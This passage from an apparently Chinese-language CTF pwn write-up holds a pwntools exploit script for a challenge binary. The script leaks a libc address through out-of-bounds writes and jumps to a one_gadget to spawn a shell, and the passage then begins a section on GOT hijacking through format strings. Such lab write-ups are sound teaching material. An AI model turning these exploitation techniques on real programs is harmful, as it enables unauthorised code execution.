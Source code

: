 ```plain
    context.arch = 'i386'

#p=remote('node5.anna.nssctf.cn',28573)
p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.31.so')

start=elf.sym["_start"]
ru('one.\n')
sl('-6')
ru("name\n")
s(p64(start))
#duan()
ru('one.\n')
sl('-7')
ru("name\n")
s('\xc0')
r(13)

read_addr=u64(r(6).ljust(8,b'\x00'))
libc_base=read_addr-libc.symbols['read']
leak('libc_base ',libc_base)

ogs=[0xe3afe,0xe3b01,0xe3b04]
og=libc_base+ogs[1]
ru('one.\n')
sl('-6')
ru("name\n")
s(p64(og))
itr()
```

## 非栈上格式化字符串劫持 GOT 表

### 青少年 ctf login

[![](assets/1701678450-743f4972912724b6c25eba8d652b35d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129210944-90a408ea-8eb8-1.png)  
这里也是可以修改 got 表  
ida  
[![](assets/1701678450-8aef9aefaa4572ee12c137a39aee79bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129210954-96a6acca-8eb8-1.png)
